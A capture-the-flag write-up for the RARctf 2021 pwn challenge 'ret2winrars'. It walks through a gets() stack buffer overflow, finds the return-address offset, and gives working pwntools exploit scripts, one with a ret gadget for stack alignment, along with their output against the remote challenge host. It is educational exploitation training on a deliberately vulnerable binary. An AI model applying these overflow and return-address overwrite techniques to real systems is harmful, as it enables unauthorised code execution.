

# ret2winRaRs

- Category: pwn
- Points: 150
- Author: willwam845

```
here at the winrars we make bad puns 24/ 7
```


## Exploring

We are given the files for a docker environment, the binary and a fake flag file:

```
RET2WINRARS
    build.sh
    ctf.xinetd
    Dockerfile
    flag.txt
    ret2winrars
    start.sh
```

First we check out the Dockerfile, before moving on to some basic reversing:

```dockerfile
# ret2winrars
FROM ubuntu:20.04

RUN apt-get update && apt-get install -y \
  xinetd \
  && rm -rf /var/lib/apt/lists/*

RUN mkdir -p /challenge
RUN useradd -M -d /challenge ctf
WORKDIR /challenge

COPY ctf.xinetd /etc/xinetd.d/ctf
COPY . /challenge/

RUN chown -R ctf:ctf /challenge && chmod -R 770 /challenge
RUN chown -R root:ctf /challenge && \
  chmod -R 750 /challenge

CMD ["/usr/sbin/xinetd", "-dontfork"]

EXPOSE 1337

```

Great, looks everything stands on the `xinetd` service:

```
service ctf
{
    disable = no
    socket_type = stream
    protocol    = tcp
    wait        = no
    user        = ctf
    type        = UNLISTED
    port        = 1337
    bind        = 0.0.0.0
    server      = /bin/sh
    server_args = /challenge/start.sh
    # safety options
    per_source  = 25 # the maximum instances of this service per source IP address
    rlimit_cpu  = 25 # the maximum number of CPU seconds that the service may use
    #rlimit_as  = 1024M # the Address Space resource limit for the service
}
```

And this uses `start.sh`, and will run on port `1337`:

```bash
#/bin/bash
cd challenge/
timeout 30 ./ret2winrar
```

There we go. This is the base of our challenge, and it is very important for this instance to use the docker environment. I will showcase this later. 

### Ghidra

Now it is time to put the binary file into Ghidra:





Three functions are of interest to us: `flag`, `get_license` and of course `main`. Let's check them out one-by-one:

```C
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hello, welcome to the WinRaRs!");
  printf("Please enter your WinRaR license key to get access: ");
  get_license();
  puts("Thanks for the license :)");
  return 0;
}
```

Fantastic, nothing complicated, just setting the virtual buffer settings, printing and calling `get_license`. Time to have a look at that function!

```c
void get_license(void)

{
  char local_28 [32];
  
  gets(local_28);
  return;
}
```

Ah a classic. We have a limited buffer in `local_28`, but input is read until a newline character using the `gets` function. This means that more than 32 characters could be read into the array, resulting in buffer overflow! This allows us to overwrite values on the [stack](https://en.wikipedia.org/wiki/Stack_(abstract_data_type)), and potentially alter execution flow. 

All that is left is to check the `flag` function:

```c
void flag(void)

{
  system("/bin/cat flag.txt");
  return;
}
```

Great, this function does the work for us. By calling the `system` function we access the underlying shell commands and get the flag! Great, time to see how we find the overflow. 


## Searching for overflow

I usually do this the most leet way possible... by passing as many `A's` as I feel like using python. And since the `A` character can be represented as 0x41 in hex I can see when we may change code execution, by checking the `dmesg` output. 

```
./ret2winrars 
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

That was 40 `A's`, and no segmentation fault. So we have to try more and more!

```
./ret2winrars 
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Increasing to 50 `A's` does the trick, time to consult the `dmesg` output (I use `dmesg | tail -n 5`):

```
[ 6200.617483] ret2winrars[18385]: segfault at 4141414141 ip 0000004141414141 sp 00007ffd5d06d4f0 error 14 in libc-2.31.so[7f3988134000+25000]
[ 6200.617497] Code: Unable to access opcode bytes at RIP 0x4141414117.
```

So this tells us a few things:

- 41 is our A character
- `ip` is the instruction pointer, which is at the address where code execution should continue (for 64 bit architectures this is the `rip` register, and for 32 bit it is `eip`)
- We overwrote the whole address, time to find where the address is exactly 0

```
./ret2winrars 
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB
Segmentation fault
```

This is input of 40 A's and a single B (0x42), when consulting dmesg we can see the following:

```
[ 6324.281990] ret2winrars[18397]: segfault at 400042 ip 0000000000400042 sp 00007ffe25fd0e90 error 15 in ret2winrars[400000+1000]
[ 6324.281999] Code: 80 10 40 00 00 00 00 00 40 00 00 00 00 00 00 00 18 3a 00 00 00 00 00 00 00 00 00 00 40 00 38 00 0b 00 40 00 1d 00 1c 00 06 00 <00> 00 04 00 00 00 40 00 00 00 00 00 00 00 40 00 40 00 00 00 00 00
```

Focusing on the first line, not even a single 41 appears in the instruction pointer, meaning this is potentially our offset! Time to write our exploit script.

## Exploitation

To solve pwn challenges, [pwntools](https://docs.pwntools.com/en/stable/) is a great tool for pythonistas (and others). I use the following boilerplate for binary challenges:

```python
#!/usr/bin/env python3

from pwn import *

local = True

if local:
	elf = ELF('<binary>')
	p = elf.process()
else:
	p = remote('<address>', port)

junk = b'A'*0xdeadbeef

payload = [
	
	
]


b''.join(payload)

print( p.recvuntil('> ').decode(encoding='ascii') )

p.sendline(payload)
print(payload)

print( p.recvall().decode(encoding='ascii') )
```

Saves me some hassle, might do the same for you. And this is what my script looked like:

```python
#!/usr/bin/env python3

from pwn import *

local = True

elf = ELF('./ret2winrars')

if local:
	p = elf.process()
else:
	p = remote('193.57.159.27', 30527)

junk = b'A'*40

flag = elf.symbols['flag']

payload = [
	junk,
	p64(flag)
]

payload = b''.join(payload)

print( p.recvuntil(': ').decode(encoding='ascii') )

p.sendline(payload)
print(payload)

print(len(p64(flag)))

print( p.recvall().decode(encoding='ascii') )

```

Great, using this script we can exploit the local binary. Accessing `symbols` of the `ELF` object we can find the address of the `flag` function, then using the `p64` function we convert to a valid 64 bit address. Combining that with our 40 `A's` we can overwrite the instruction pointer with the `flag` function address, thus altering code flow and gaining the flag!

```
./solve.py 
[*] '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars': pid 18472
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb\x11@\x00\x00\x00\x00\x00'
8
[+] Receiving all data: Done (30B)
[*] Process '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars' stopped with exit code 0 (pid 18472)
rarctf{f4k3_fl4g_f0r_t35t1ng}
```

Great, just change the `local` variable to False and we have the flag! 

```
./this.py 
[*] '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 193.57.159.27 on port 30527: Done
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb\x11@\x00\x00\x00\x00\x00'
8
[+] Receiving all data: Done (19B)
[*] Closed connection to 193.57.159.27 port 30527
Segmentation fault
```

Wow... no flag? How come?? Well this where having the same environment as the remote binary comes in handy. Time to use docker! 

### Docker testing

Simply use the `build.sh` script and we should be good to go:

```
docker ps
CONTAINER ID   IMAGE                           COMMAND                  CREATED          STATUS          PORTS                    NAMES
7fec0fb6a583   ret2winrars                     "/usr/sbin/xinetd -d…"   18 seconds ago   Up 17 seconds   0.0.0.0:1337->1337/tcp   ret2winrars
```

After running `./build.sh` we can see that the container is up, time to test it there and connect a shell with `docker exec -it ret2winrars bash` so we can see the try it locally. 

```
/ret2winrars 
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb\x11@\x00\x00\x00\x00\x00
Segmentation fault (core dumped)
```

Hmm... maybe this is an Ubuntu thing? After doing some research I stumbled across [this](https://stackoverflow.com/questions/60729616/segfault-in-ret2libc-attack-but-not-hardcoded-system-call#60795264) thread on SO. It is a stack alignment issue, what we must do is include a `ret` instruction in our payload. 

We do that like this:

```python
#!/usr/bin/env python3

from pwn import *

local = False

elf = ELF('./ret2winrars')
rop = ROP(elf)

if local:
	p = elf.process()
else:
	#p = remote('193.57.159.27', 30527)
	p = remote('127.0.0.1', 1337)

junk = b'A'*40

flag = elf.symbols['flag']
ret = (rop.find_gadget(['ret']))[0]


payload = [
	junk,
	p64(ret),
	p64(flag)
]


payload = b''.join(payload)

print( p.recvuntil(': ').decode(encoding='ascii') )

p.sendline(payload)
print(payload)

print(len(p64(flag)))

print( p.recvall().decode(encoding='ascii') )
```

 Using the `ROP` object, we can access all gadgets (useful instructions) in the binary. Allowing us to search for a `ret` instruction:

```
./this.py 
[*] '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './ret2winrars'
[+] Opening connection to 127.0.0.1 on port 1337: Done
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16\x10@\x00\x00\x00\x00\x00b\x11@\x00\x00\x00\x00\x00'
8
[+] Receiving all data: Done (113B)
[*] Closed connection to 127.0.0.1 port 1337
rarctf{f4k3_fl4g_f0r_t35t1ng}
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
```

Fantastic! Now just change the remote address and see:

```
./this.py 
[*] '/root/CTFs/RARctf2021/pwn/ret2RAR_DONE/ret2winrars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './ret2winrars'
[+] Opening connection to 193.57.159.27 on port 30527: Done
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16\x10@\x00\x00\x00\x00\x00b\x11@\x00\x00\x00\x00\x00'
8
[+] Receiving all data: Done (144B)
[*] Closed connection to 193.57.159.27 port 30527
rarctf{0h_1_g3t5_1t_1t5_l1k3_ret2win_but_w1nr4r5_df67123a66}
Hello, welcome to the WinRaRs!
Please enter your WinRaR license key to get access: 
```

And there we have it!